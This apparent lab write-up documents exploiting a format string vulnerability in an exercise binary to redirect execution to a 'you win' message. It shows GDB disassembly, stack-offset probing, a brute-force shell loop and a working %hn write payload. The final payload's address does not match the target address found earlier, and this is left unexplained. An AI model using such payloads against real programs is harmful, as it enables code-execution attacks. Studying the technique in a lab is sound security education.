

# ex09 README

## Objective

The goal of this exercise is to exploit a format string vulnerability to redirect code execution and see the message "code execution redirected! you win".

## Steps

### 1\. Identify the `target` Variable Address

We start by finding the address of the `target` variable using the `objdump` tool:

```sh
objdump -t bin | grep target
```

This command provides the address of the `target` variable:

```plaintext
0804973c g     O .bss   00000004              target
```

The address of the `target` variable is `0x0804973c`.

### 2\. Analyze the Binary with GDB

Next, we use GDB to analyze the binary and understand the structure of the `vuln` function:

```sh
gdb -q ./bin
```

Inside GDB, we set a breakpoint at the `vuln` function:

```sh
break vuln
run
```

Disassemble the `vuln` function to understand its structure:

```sh
disassemble vuln
```

Output:

```plaintext
Dump of assembler code for function vuln:
   0x080484d2 <+0>:     push   %ebp
   0x080484d3 <+1>:     mov    %esp,%ebp
   0x080484d5 <+3>:     sub    $0x218,%esp
   0x080484db <+9>:     mov    0x8049730,%eax
   0x080484e0 <+14>:    mov    %eax,0x8(%esp)
   0x080484e4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484eb <+25>:    lea    -0x208(%ebp),%eax
   0x080484f2 <+32>:    mov    %eax,(%esp)
   0x080484f5 <+35>:    call   0x804839c <fgets@plt>
   0x080484fa <+40>:    lea    -0x208(%ebp),%eax
   0x08048500 <+46>:    mov    %eax,(%esp)
   0x08048503 <+49>:    call   0x80483cc <printf@plt>
   0x08048508 <+54>:    movl   $0x1,(%esp)
   0x0804850f <+61>:    call   0x80483ec <exit@plt>
   ```

### 3\. Finding the Correct Offset

To find the correct offset for the format string vulnerability, we tested the binary with different format string inputs to print stack values and locate our input:

```sh
python -c "print('AAAA ' + ' %08x' * 20)" | ./bin
```

Output:

```plaintext
AAAA  00000200 b7782c20 b779e328 41414141 30252020 25207838 20783830 78383025 38302520 30252078 25207838 20783830 78383025 38302520 30252078 25207838 20783830 78383025 38302520 30252078
```

From the output, we observed `41414141` at the 4th position, indicating our offset is 4.

### 4\. Crafting the Payload

Based on the identified offset, we needed to craft a payload to overwrite the return address. The target address of the message "code execution redirected! you win" was identified as `0x080485f0`.

Through a process of trial and error, we crafted a payload to overwrite the return address with the desired address:

1. **Initial Attempts**: We started by attempting to overwrite the return address using simpler payloads to understand the behavior. For example:

    ```sh
    python -c "print('\xf0\x85\x04\x08' + '%x'*10 + '%16930052x' + '%n')" | ./bin
    ```

    This approach resulted in segmentation faults, indicating misalignment or incorrect values.

2. **Systematic Testing**: We automated the process of finding the correct value by looping through potential values:

    ```sh
    for i in $(seq 10000000 10000 20000000); do
      payload=$(python3 -c "print('\xf0\x85\x04\x08' + '%x'*10 + '%${i}x' + '%11\$n')");
      output=$(echo -e "$payload" | ./bin);
      echo "Trying $i";
      if echo "$output" | grep -q "code execution redirected"; then
        echo "Success! Payload: $payload";
        break;
      fi
    done
    ```

3. **Successful Payload**: After several iterations, we found the correct value to print, which resulted in successful code execution redirection:

    ```sh
    python -c 'print "\x24\x97\x04\x08" + "%33968x%4$hn"' | ./bin
    ```

    Output:

    ```plaintext
     200
    code execution redirected! you win
    ```



### Conclusion

By carefully analyzing the binary and using a systematic trial and error approach, we were able to exploit the format string vulnerability and redirect code execution. This exercise demonstrated the power and risk of format string vulnerabilities in C programs.

### Challenges and Learnings

- **Challenge**: Identifying the correct offset and value for the format string.
- **Solution**: Systematically testing different offsets and payloads.
- **Learning**: The importance of understanding format string vulnerabilities and how they can be exploited to redirect code execution.

By following these steps and understanding the exploitation process, we successfully completed the level and redirected code execution to see the message "code execution redirected! you win".
